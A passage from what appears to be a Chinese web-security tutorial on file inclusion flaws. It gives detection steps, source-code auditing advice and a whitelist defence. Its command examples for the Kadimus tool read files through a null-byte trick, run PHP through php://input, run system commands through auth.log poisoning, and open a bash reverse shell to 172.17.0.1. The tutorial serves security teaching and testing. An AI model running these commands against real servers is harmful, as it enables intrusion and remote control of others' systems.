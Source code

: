 
（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。

（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。

（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。

-   **本地文件包含漏洞检测**
    

（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。

（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。

（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。

上述检测思路既适用于手工测试，也适用于日常的自动化扫描。

#### 2.静态检测思路

从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。

![图片9.png](https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png)

#### 3.自动化检测与利用工具：Kadimus

提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 [Kadimus](https://github.com/P0cL4bs/Kadimus/)，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。

介绍几个常用命令：

```
# 检测参数是否存在文件包含漏洞
./kadimus -u localhost/?pg=contact -A my_user_agent
# 读取文件内容
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
# 执行PHP代码
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
# 执行系统命令
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
# 反连shell
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

### 漏洞防御

#### 1.白名单限制

如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：

```
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
echo "ERROR: File not found!";
exit;
}
```

